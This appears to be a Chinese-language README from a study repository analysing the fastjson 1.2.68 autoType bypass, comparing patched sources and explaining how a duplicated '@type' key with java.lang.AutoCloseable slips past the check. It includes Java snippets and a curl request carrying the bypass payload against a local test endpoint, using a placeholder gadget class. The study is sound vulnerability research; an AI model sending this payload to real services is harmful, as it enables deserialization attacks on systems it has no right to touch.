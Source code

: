 fastjson-study

## 背景

fastjson 1.2.68 版本爆出高危漏洞，本次通过寻找改漏洞触发机制来学习 fastjson 的安全机制

[安全漏洞通告](https://github.com/alibaba/fastjson/wiki/security_update_20200601)

## bug 追踪

### 查看 bug 如何被修复

![img.png](./screenshots/img1.png)

升级到 *.sec10 可解决问题

### 下载代码查看修改点

1.2.8 到 1.2.8.sec10 改动较小，增加了一个 denyHashCodes，三个 exceptClass (并将 exceptClass 替换为 exceptHash)

下载 source.jar 解压获取源码 (已解压放到 fastjson-source-code 文件夹下)

[fastjson-1.2.8-sources.jar](https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.8/fastjson-1.2.8-sources.jar)

[fastjson-1.2.8.sec10-sources.jar](https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.8.sec10/fastjson-1.2.8.sec10-sources.jar)

1. 在 ParserConfig.denyHashCodes 中添加了 0xD59EE91F0B09EA01L

![img.png](./screenshots/img2.png)

通过广大网友的暴力破解 [fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)

得到 0xD59EE91F0B09EA01L 为 oracle.jms.AQ

但黑名单需要开启 autoType 才能使用，所以该重大漏洞与 oracle.jms.AQ 无关

2. exceptClass 替换为 exceptHash 并添加了3个

![img.png](./screenshots/img3.png)

通过源码分析，使用 TypeUtils.fnv1a_64 遍历 java 标准库的类名得到新增加的 3个 exceptHash 为

- java.lang.Runnable
- java.lang.Readable
- java.lang.AutoCloseable

能绕过 autoType 限制大概率于这三个类有关

# 如何绕过 autoType 限制

在网上查阅资料得到可以通过两个 @type 标记绕过 autoType 限制，具体操作如下

```java
//see FastjsonTest.test1
//AutoCloseableBadCode 实现了 AutoCloseable 接口
String jsonString = "{\"@type\":\"java.lang.AutoCloseable\",\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
Object result = JSON.parse(jsonString);
log.info("result className {}", result.getClass().getName());
// ==> result className  io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode
```

json 串中有两个相同的 key @type 反序列化时不会报错吗？答案时不会。

```java
//see FastjsonTest.test1
log.info("result {}", JSON.parseObject("{\"a\": 1, \"a\":2}"));
// ==> result {"a":2}
```

没有开启 autoType 时，什么情况下可以使用 @type ?

通过分析 ParserConfig.checkAutoType 的代码得:

1. 指定期望类，且 @type 为期望类或其子类

```java
//set FastjsonTest.test6
String jsonString = "{\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
Object result = JSON.parseObject(jsonString, AutoCloseable.class);
log.info("result className {}", result.getClass().getName());
// ==> result className io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode
```

2. 类被 fastjson 反序列化过 (被 TypeUtils 缓存过)

```java
//see FastjsonTest.test7
String jsonString = "{\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}";
//被反序列过
JSON.parseObject("{}", AutoCloseableBadCode.class);
Object result = JSON.parseObject(jsonString);
log.info("result className {}", result.getClass().getName());
```

添加的三个期望类中只有 AutoCloseable 被 TypeUtils 缓存过，所以能绕过 autoType 的高危漏洞多半与其有关

通过代码分析，两个 @type 中，在效果上等价于:

```java
//运行到第一个 @type，告知 fastjson 要反序列 AutoCloseable，AutoCloseable 被缓存过，允许反序列化，期望类变更为 AutoCloseable
JSON.parseObject"{\"@type\":\"java.lang.AutoCloseable\"}");
//运行到第二个 @type，告知 fastjson 要反序列 AutoCloseableBadCode, AutoCloseableBadCode 是 AutoCloseable 的实现，允许反序列化，期望类变更为 AutoCloseableBadCode
Object result = JSON.parseObject("\"@type\":\"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode\",\"msg\":\"haha\"}", AutoCloseable.class);
```

绕过此次漏洞是由该方式造成的，那么该类需要有如下特征

1. 拥有公开的无参构造方法
2. getXXX 或 setXXX 或无参构造方法能触发危险操作
3. 实现 AutoType
4. 不在 fastjson 的黑名单中
5. 在 java 标准库中或常用的第三方库中

# 利用漏洞的方法

以下构造了一个相对比较常见的常见

条件: 
1. 使用 spring mvc，且反序列化方式使用 fastjson (常见)

```java
@Bean
public HttpMessageConverter configureMessageConverters() {
    FastJsonHttpMessageConverter converter = new FastJsonHttpMessageConverter();
    FastJsonConfig config = new FastJsonConfig();
    converter.setFastJsonConfig(config);
    converter.setDefaultCharset(StandardCharsets.UTF_8);
    List<MediaType> mediaTypeList = new ArrayList<>();
    mediaTypeList.add(MediaType.APPLICATION_JSON);
    converter.setSupportedMediaTypes(mediaTypeList);
    return converter;
}
```

2. 拥有一个使用 @RequestBody 的 Controller (常见)

3. 拥有满足高危漏洞的类(比较难找，这里用 AutoCloseableBadCode 代替)

正常请求:

```bash
curl --location --request POST 'http://127.0.0.1:8080/test/case1' --header 'Content-Type: application/json' --data-raw '{"msg": "data1"}'
```

触发漏洞请求

```bash
curl --location --request POST 'http://127.0.0.1:8080/test/case1' --header 'Content-Type: application/json' --data-raw '{"data": {"@type":"java.lang.AutoCloseable","@type":"io.github.tanghuibo.fastjsontest.badcode.AutoCloseableBadCode","name":"test"}, "msg": "test"}'
```

此时就会执行 AutoCloseableBadCode.setName (目标类可以没有 setData 和 getData 属性)

# 总结

个人认为 fastjson 不太合理的点:

1. 缺少基本参数校验: 同一层级出现两个相同 key 不属于标准 json 格式，应当报错
2. API未按危险等级划分: JSON.parse、JSON.parseObject 都能在默认配置下对 @type 生效，应当提供默认不支持 @type 的方法(safe 模式)
3. 指定期望类情况下依旧下不对是否有该参数进行校验
4. 用户可能会在不知情的情况下对某些类进行反序列化，被反序列过的类再次反序列化校验不严格

